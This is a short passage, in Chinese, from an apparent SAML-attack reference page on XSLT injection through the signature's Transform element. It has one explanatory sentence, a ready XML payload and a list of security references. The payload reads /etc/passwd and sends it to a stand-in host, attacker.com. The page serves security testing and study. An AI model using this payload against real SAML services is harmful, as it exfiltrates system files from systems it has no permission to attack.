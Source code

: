 可以通过使用 `transform` 元素执行 XSLT。

![http://sso-attacks.org/images/4/49/XSLT1.jpg](http://sso-attacks.org/images/4/49/XSLT1.jpg)
图片来自 [http://sso-attacks.org/XSLT_Attack](http://sso-attacks.org/XSLT_Attack)

```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
    <ds:Transforms>
      <ds:Transform>
        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
          <xsl:template match="doc">
            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
            <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
            <xsl:variable name="exploitUrl"select="concat($attackerUrl,$escaped)"/>
            <xsl:value-of select="unparsed-text($exploitUrl)"/>
          </xsl:template>
        </xsl:stylesheet>
      </ds:Transform>
    </ds:Transforms>
  ...
</ds:Signature>
```

## 参考文献

* [攻击 SSO：常见的 SAML 漏洞及其发现方法 - Jem Jensen - 2017年3月7日](https://blog.netspi.com/attacking-sso-common-saml-vulnerabilities-ways-find/)
* [如何查找 SAML 中的漏洞：一种方法论 - 第一部分 - Ben Risher (@epi052) - 2019年3月7日](https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/)
* [如何查找 SAML 中的漏洞：一种方法论 - 第二部分 - Ben Risher (@epi052) - 2019年3月13日](https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/)
* [如何查找 SAML 中的漏洞：一种方法论 - 第三部分 - Ben Risher (@epi052) - 2019年3月16日](https://epi052.gitlab.io/notes-to-self/blog/2019-03-16-how-to-test-saml-a-methodology-part-three/)
* [破解 SAML：成为你想成为的人 - Juraj Somorovsky, Andreas Mayer, Jorg Schwenk, Marco Kampmann 和 Meiko Jensen - 2012年8月23日](https://www.usenix.org/system/files/conference/usenixsecurity12/sec12-final91-8-23-12.pdf)
* [Oracle Weblogic - 多个 SAML 漏洞 (CVE-2018-2998/CVE-2018-2933) - Denis Andzakovic - 2018年7月18日](https://pulsesecurity.co.nz/advisories/WebLogic-SAML-Vulnerabilities)
* [SAML Burp 插件 - Roland Bischofberger - 2015年7月24日](https://blog.compass-security.com/2015/07/saml-burp-extension/)
* [SAML 安全备忘单 - OWASP - 2019年2月2日](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/SAML_Security_Cheat_Sheet.md)
* [伪造断言的道路通向你的代码库 - Ioannis Kakavas (@ilektrojohn) - 2017年3月13日](http://www.economyofmechanism.com/github-saml)
* [Shibboleth 2 中 SAML 属性截断 - redteam-pentesting.de - 2018年1月15日](https://www.redteam-pentesting.de/de/advisories/rt-sa-2017-013/-truncation-of-saml-attributes-in-shibboleth-2)
* [漏洞说明 VU#475445 - Garret Wassermann - 2018年2月27日](https://www.kb.cert.org/vuls/id/475445/)